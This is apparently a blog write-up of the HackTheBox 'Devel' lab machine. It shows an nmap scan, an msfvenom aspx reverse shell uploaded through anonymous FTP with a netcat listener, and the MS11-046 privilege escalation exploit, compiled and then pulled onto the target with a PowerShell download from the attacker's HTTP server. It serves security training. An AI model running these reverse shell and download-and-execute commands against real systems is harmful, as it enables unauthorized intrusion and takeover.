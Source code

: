 ```yaml
---
title: "Devel"
date: 2023-07-03T17:35:59+02:00
tags: ["ftp","windows","web","privesc"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "This room is a windows room with a http service which runs iis7 web server which content is able at a misconfigured ftp service."
description: "This room is a windows room with a http service which runs iis7 web server which content is able at a misconfigured ftp service."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Devel
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Devel

![Untitled](/HTB/devel-icon.png)

## Tools Used

- Nmap
- FTP
- Msfvenom
- Searchsploit

## Port Scanning

```bash
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan results shows two open ports, the port 80 has an iis7 web server and the port 21 a ftp service with the content of the website, one folder named aspnet_client gives us a clue of what framework is using the website.

## Enumeration

We can try a reverse shell since it allows us to log in the ftp server anonymously.

First we are going to list the formats we can use with:

```bash
msfvenom --list formats
```

A format specially caught my attention and it’s the aspx format which is used by the [asp.net](http://asp.net) 

We can build the reverse shell with:

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.20 LPORT=4444 -o reverse-shell.aspx
```

## Exploiting

Let’s exploit the machine

First we are going to connect with the ftp client anonymously with:

```bash
ftp 10.10.10.5 21
```

Once there, let’s send the reverse shell with mput command:

```bash
mput ~/Documents/exploits/reverse-shell.aspx
```

Only left a listener

```bash
nc -lv 4444
```

Now let’s run the file in the browser http://10.10.10.5/reverse-shell.aspx.

## Gaining an Initial Foothold

We are in now. Let’s see if we are root users or not.

![Untitled](/HTB/devel-1.png)

![Untitled](/HTB/devel-2.png)

If we try to enter in the users folder seems that we don’t have permissions.

![Untitled](/HTB/devel-3.png)

## Escalating Privilege

We can list the system information to see if we can escalate privileges.

![Untitled](/HTB/devel-4.png)

Our version is the Windows 7 build 7600 x86, it’s fairly old and no hotfix(s) are applied.

In searchsploit seems doesnt have any result.

![Untitled](/HTB/devel-5.png)

If we google it we can see a [exploit](https://www.exploit-db.com/exploits/40564) that fits well with what we want to do.

![Untitled](/HTB/devel-6.png)

![Untitled](/HTB/devel-7.png)

The exploit CVE-**[2011-1249](https://nvd.nist.gov/vuln/detail/CVE-2011-1249)** help us to escalate privileges.

Let’s download the exploit with searchsploit 

```bash
searchsploit -m "40564"
```

If we take a look to the documentation of the exploit we can see that the exploit need to be compiled with `mingw32` first.

```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

Now let’s create a http server with python to send this .exe.

```bash
python -m http.server 80
```

The remote machine doesn’t seems to have netcat but has powershell we can download the file with:

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:80/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Once we have the exploit only left to run it, we can find it in c:\Users\Public\Downloads

![Untitled](/HTB/devel-9.png)

![Untitled](/HTB/devel-10.png)

We have gained root access.

## Flag(s)

Let’s navigate to the user and root Desktops where we can find the flags.

**User Flag**

![Untitled](/HTB/devel-11.png)

**Root Flag**

![Untitled](/HTB/devel-12.png)

## Lessons Learned

- What insights did you gain from the room?
    
    We learned to put a reverse shell via the ftp service as well as escalate privilege with a exploit that take advantage of the afd.sys file.
    
- Were there any novel tools or techniques employed?
    
    We don’t employed any new tools but he know now a new format of reverse shell (aspx) that is employed by Microsoft [asp.net](http://asp.net).

**Thank you for reading, and happy hacking! 😄**
